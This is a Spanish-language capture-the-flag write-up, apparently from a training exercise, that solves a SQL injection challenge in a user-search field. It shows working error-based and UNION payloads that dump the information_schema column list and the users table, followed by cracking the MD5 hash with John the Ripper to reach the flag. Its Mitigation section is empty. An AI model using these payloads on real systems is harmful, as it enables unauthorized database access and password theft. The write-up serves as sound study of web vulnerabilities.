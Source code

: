 # Inyección SQL - Usuarios


## Ataque

En la url de http://<IP>/???, tenemos acceso a un input para buscar usuarios por id, por lo que suponemos que el input de usuario va a formar parte de una query a la base de datos.

Probamos si podemos tener acceso a una vulnerabilidad por mala validación de input; escribimos un `'` y enviamos.

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 1
```

El servidor no valida la entrada, así que podemos intentar una injección.

Primero, obtenemos la versión de la base de datos del servidor con la siguiente query:

```sql
1 OR 1 GROUP BY CONCAT_WS(0x3a,VERSION(),FLOOR(RAND(0)*2)) HAVING MIN(0) OR 1-- -


Duplicate entry '5.5.64-MariaDB-1ubuntu0.14.04.1:1' for key 'group_key'
```
[Fuente: Andvanced SQL Injection Cheatsheet](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/blob/main/MySQL-Bypass-Error/README.md)


Tras invesigar esta versión, descubrimos que las versiones mayores de 5.02 de MySQL tienen una base de datos llamadas **INFORMATION_SCHEMA**, que contienen información sobre el resto de bases de datos guardadas en el servidor, lo que nos va a resultar útil en la exploración de la tabla users.

Exploranco [la documentación](https://dev.mysql.com/doc/refman/8.4/en/information-schema-columns-table.html), vemos que information_schema contiene una tabla **columns**, en donde se guardan los nombres de todas las columnas de todas las tablas presentes en la base de datos.

Desde el servidor se escapan los caracteres de comillas, por lo que tendemos que lanzar una query para obtener todas las columnas de todas las tablas.

Como desde el servidor únicamente se recuperan dos columnas para mostrar los parámetros en front, debemos hacer un **union** para concatenar dos columnas con la información que nos interesa.

```sql
1 or 1=1 union select concat_ws(0x2b,table_name,table_schema), column_name from information_schema.columns
```

Y de aquí obtenemos dos columnas interesantes de una tabla **users**.

```
ID: 1 or 1=1 union select concat_ws(0x2b,table_name,table_schema), column_name from information_schema.columns 
First name: users+Member_Sql_Injection
Surname : Commentaire

ID: 1 or 1=1 union select concat_ws(0x2b,table_name,table_schema), column_name from information_schema.columns 
First name: users+Member_Sql_Injection
Surname : countersign
```

Tras obtener los nombres de las columnas de la tabla `users`, sólo nos queda mirar los valores de las columnas sospechosas del usuario Flag.

```sql
420 or 1=1 union select Commentaire, countersign from users
```

Obtenemos lo siguiente:

```
ID: 420 or 1=1 union select Commentaire, countersign from users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```
Hacemos lo que nos pide con un john.

```bash
root@f4e2e2e5dc49:/# /john-jumbo/run/john --format=raw-md5 --wordlist=rockme.txt hashes
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=12
Note: Passwords longer than 18 [worst case UTF-8] to 55 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
Warning: Only 1 candidate buffered, minimum 24 needed for performance.
FortyTwo         (user)
1g 0:00:00:00 DONE (2025-06-15 15:21) 100.0g/s 100.0p/s 100.0c/s 100.0C/s FortyTwo
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
root@f4e2e2e5dc49:/# echo -n FortyTwo | sha256sum
9995cae900a927ab1500d317dfcc52c0ad8a521bea878a8e9fa381b41459b646  -
```

He aquí la flag.

## Mitigación



## Referencias

